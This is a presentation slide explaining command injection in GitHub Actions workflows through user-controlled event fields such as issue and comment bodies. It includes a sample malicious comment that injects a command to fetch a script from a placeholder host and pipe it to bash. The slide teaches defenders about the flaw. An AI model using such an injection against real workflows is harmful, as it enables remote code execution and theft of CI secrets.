

Command Injection

| When a workflow event is triggered, attributes about the event are passed to the workflow. Some of those values are user-controlled. Examples: github.event.issue.body github.event.issue.title github.event.comment.body github.event.pull\_request.body github.event.pull\_request.title github.event.pull\_request.head.label And more... Workflows can be vulnerable is they pass these values into unsafe expressions. Example workflow: run: echo {{ github.event.comment.body }} Malicious comment: “ ; curl https://a.b.c.d/evil.sh | bash” run: echo ; curl https://a.b.c.d/evil.sh | bash |
| --- |

31